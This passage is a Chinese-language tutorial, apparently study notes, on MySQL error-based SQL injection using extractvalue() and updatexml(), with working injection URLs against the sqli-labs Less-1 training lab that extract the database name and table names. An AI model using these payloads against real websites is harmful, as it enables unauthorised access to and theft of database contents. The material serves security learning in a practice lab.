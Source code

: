 语法： extractvalue(XML_document, XPath_string)

参数1： XML_document 是String格式，为XML文档对象的名称；

参数2： XPath_string (Xpath格式的字符串)，注入时可操作的地方。

报错原理：xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果写入其他格式就会报错，

并且会返回写入的非法格式内容，错误信息如： XPATH syntax error:'xxxxxxxx’ 。

注意：extractvalue() 函数所能显示的错误信息最大长度为32，如果错误信息超过了最大长度，有

可能导致显示不全。因此，有时需要借助limit来做分行显示。

实例: **select extractvalue(1,concat('~',user()))** ——主要是构造concat （user()可替换成别的payload）

### updatexml()（mysql>=5.1.5）

与前者类似

作用：改变文档中符合条件的节点的值。
语法：updatexml( xML_document, xPath string, new value )
参数1： XML document是String格式，为XML文档对象的名称
参数2：xPath string(x path格式的字符串)，注入时可操作的地方
参数3：new value， String格式，替换查找到的符合条件的数据
报错原理：同extractvalue()
实例:
mysql> **select updatexmI(1, concat('~',user()), 1);**
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost'
注：该函数最大显示长度为32，超过长度可以配合substr、limit等函数来显示

### 报错函数汇总

![image-20231109213524294](https://s2.loli.net/2023/11/09/Apkbzt4x39VN6Hv.png)

### 实验

**Sqlilab-less-1**

使用以下payload获取网站当前所在数据库的库名：

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',database()))--+
```

使用以下payload获取数据库security的全部表名：

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='security')))--+
```

以上的变式：借助limit防止长度超过限制

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='security' limit 0,1)))--+
//显示security库中的第1张表的名字

http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='security' limit 1,1)))--+
//显示security库中的第2张表的名字
```
